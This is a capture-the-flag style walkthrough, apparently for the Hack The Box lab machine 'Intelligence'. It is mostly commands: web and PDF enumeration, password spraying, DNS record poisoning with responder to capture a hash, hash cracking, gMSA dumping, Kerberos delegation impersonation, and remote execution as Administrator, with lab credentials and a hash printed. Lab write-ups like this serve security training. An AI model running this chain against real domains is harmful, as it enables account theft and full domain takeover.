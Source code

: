 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.248
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.248/FUZZ -e .aspx,.php,.txt,.html,.sh
wget http://10.10.10.248/documents/2020-01-01-upload.pdf
exiftool 2020-01-01-upload.pdf
curl http://10.10.10.248/documents/2020-01-01-upload.pdf --output 2020-01-01-upload.pdf
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum --dc 10.10.10.248 -d intelligence.htb users
python3 findpdfs.py
wget -i pdfsurl
="http://10.10.10.248/documents/2020-01-"&TEXT(ROW(A1),"00")&"-upload.pdf"
exiftool *upload.pdf | grep Creator | sort –u
exiftool *upload.pdf | grep Creator | awk -F': ' '{print $2}' | sort -u
for f in *pdf; do pdftotext $f; done
head -n1 *txt
NewIntelligenceCorpUser9876
cat *txt > all.txt
nano all.txt; ctrl+w password
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876
smbclient -L \\\\10.10.10.248\\ -U intelligence.htb/Tiffany.Molina
smbclient \\\\10.10.10.248\\Users -U intelligence.htb/Tiffany.Molina
smbclient \\\\10.10.10.248\\IT -U intelligence.htb/Tiffany.Molina
https://github.com/dirkjanm/krbrelayx
./dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.20 -t A
responder -I tun0
john hash -w=/usr/share/wordlists/rockyou.txt
Ted.Graves | Mr.Teddy
sudo apt install bloodhound
neo4j console
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
python3 bloodhound.py -d intelligence.htb -u Ted.Graves -p Mr.Teddy -ns 10.10.10.248 -c All
Mark User as owned; Shortest Paths to Domain Admins from Owned Principals
git clone https://github.com/micahvandeusen/gMSADumper
python gMSADumper/gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l 10.10.10.248
echo "10.10.10.248 intelligence.htb" | sudo tee -a /etc/hosts
sudo service virtualbox-guest-utils stop
sudo apt install ntpdate
sudo ntpdate -s 10.10.10.248
./getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :51e4932f13712047027300f869d07ab6
export KRB5CCNAME=Administrator.ccache
./wmiexec.py -k -no-pass dc.intelligence.htb
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.248
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6413486e-f42a-43a5-b969-237d18b6e161)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.248/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/96991ceb-dfba-48ae-a7ad-6399ba07a2ed)

```
wget http://10.10.10.248/documents/2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bdc6e7f4-18d2-448d-95b8-1531c66d373e)

```
exiftool 2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/44a19195-37c8-4deb-b3ed-b2c660206718)

```
curl http://10.10.10.248/documents/2020-01-01-upload.pdf --output 2020-01-01-upload.pdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b57f601a-2f11-4db5-ac20-830bd9527e7f)

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum --dc 10.10.10.248 -d intelligence.htb users
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4efd407f-9ea1-4de4-9387-ba3ea918ac6d)

```
#!/usr/bin/env python3

import datetime
import requests


t = datetime.datetime(2020, 1, 1)  
end = datetime.datetime(2021, 7, 4) 

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")  
    resp = requests.get(url)
    if resp.status_code == 200:
        print(url)
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break
```
```
python3 findpdfs.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0a43ff18-7da3-413d-8e83-ef4b8c33c978)

![image](https://github.com/regarmulia/HTB/assets/33616880/5cef87be-c746-4a4f-87d4-f5d4d5f95f63)

```
wget -i pdfsurl
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5def43cf-a8a4-43a7-b66b-9ba62c4fb63d)

```
OPT2
="http://10.10.10.248/documents/2020-01-"&TEXT(ROW(A1),"00")&"-upload.pdf"
wget -i listurl2.txt
```
![image](https://github.com/user-attachments/assets/f155f10c-fdf9-4a36-9ccc-8c9f5e91b2c6)

![image](https://github.com/user-attachments/assets/22be1f29-6215-41aa-8b3c-674beb0cb8a0)

```
exiftool *upload.pdf | grep Creator | sort –u
exiftool *upload.pdf | grep Creator | awk -F': ' '{print $2}' | sort -u
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c455f320-d1a8-4227-8fb2-c7a237733da9)

![image](https://github.com/regarmulia/HTB/assets/33616880/447f7d52-ef55-4f5b-9ef1-97e4df35eca7)

```
for f in *pdf; do pdftotext $f; done
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9ed0481f-90bf-425a-b359-7ec3b702c948)

```
head -n1 *txt
NewIntelligenceCorpUser9876
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7470bba3-1f65-4360-90db-2d353f91365c)

![image](https://github.com/regarmulia/HTB/assets/33616880/1274008a-d8b3-475d-acb1-af86b0b1f8b4)

```
cat *txt > all.txt
nano all.txt; ctrl+w password
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20edb4ef-02e1-4a33-9a2f-9386d399c602)

```
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876
```
![image](https://github.com/regarmulia/HTB/assets/33616880/af9cb0b4-8e06-42ea-96e3-366f913af48a)

```
smbclient -L \\\\10.10.10.248\\ -U intelligence.htb/Tiffany.Molina
smbclient \\\\10.10.10.248\\Users -U intelligence.htb/Tiffany.Molina
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3b60eb9f-aaee-4da9-8639-382181585649)

![image](https://github.com/regarmulia/HTB/assets/33616880/972a6c20-fa6e-4693-9782-b904c13b384c)

```
smbclient \\\\10.10.10.248\\IT -U intelligence.htb/Tiffany.Molina
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d81005aa-6f13-4698-941d-57d3de9a0095)

![image](https://github.com/regarmulia/HTB/assets/33616880/c6526640-fcd1-4dd6-9486-20c982b8e738)

```
https://github.com/dirkjanm/krbrelayx
./dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web1 -d 10.10.14.20 -t A
responder -I tun0
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5fc68265-dab2-4817-972b-3c52bc647e63)

![image](https://github.com/regarmulia/HTB/assets/33616880/0915f164-fa0e-4265-b707-cd6e4c2ba008)

```
john hash -w=/usr/share/wordlists/rockyou.txt
Ted.Graves | Mr.Teddy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9652e79f-8d7d-4049-b812-64cf935c500c)

![image](https://github.com/regarmulia/HTB/assets/33616880/95066406-d2c7-472f-a0dd-0dd7827689cb)

```
sudo apt install bloodhound
neo4j console
```
![image](https://github.com/regarmulia/HTB/assets/33616880/49cb9f67-4bbf-4794-9cbd-2087b07b71e8)

![image](https://github.com/regarmulia/HTB/assets/33616880/eb604014-04eb-40b0-9659-e440e903fade)

```
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
python3 bloodhound.py -d intelligence.htb -u Ted.Graves -p Mr.Teddy -ns 10.10.10.248 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1e1237c4-76e0-4a83-be86-647b7fe2415e)

```
Mark User as owned; Shortest Paths to Domain Admins from Owned Principals
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d5908444-3e56-441e-8d15-d97bcdaa4232)

```
git clone https://github.com/micahvandeusen/gMSADumper
python gMSADumper/gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l 10.10.10.248
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e55febe9-ae9e-44b8-abfb-3943221b8723)

```
echo "10.10.10.248 intelligence.htb" | sudo tee -a /etc/hosts
sudo service virtualbox-guest-utils stop
sudo apt install ntpdate
sudo ntpdate -s 10.10.10.248
./getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :51e4932f13712047027300f869d07ab6
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2698b7c7-c6d8-4253-9ae3-e745af4cfc9a)

```
export KRB5CCNAME=Administrator.ccache
./wmiexec.py -k -no-pass dc.intelligence.htb
```
![image](https://github.com/regarmulia/HTB/assets/33616880/08c0de5d-cecb-4a18-b5c8-c93a82315970)

![image](https://github.com/regarmulia/HTB/assets/33616880/8b50bc39-2f12-4fac-a890-6d1f0b15b281)
